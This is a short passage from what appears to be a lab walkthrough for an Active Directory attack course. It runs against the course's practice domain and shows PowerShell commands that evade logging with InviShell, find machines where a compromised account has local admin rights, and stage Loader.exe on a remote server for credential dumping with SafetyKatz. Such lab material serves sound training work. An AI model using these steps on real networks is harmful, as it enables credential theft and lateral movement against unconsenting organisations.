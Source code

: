 <figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Check if srvadmin has admin privileges on any other machine:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose
```

* dcorp-adminsrv
* dcorp-mgmt

We have local admin access on the dcorp-mgmt server as srvadmin and we already know a session of svcadmin is present on that machine.

Let's use SafetyKatz to extract credentials from the machine, first to all copy the Loader.exe to dcorp-mgmt:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
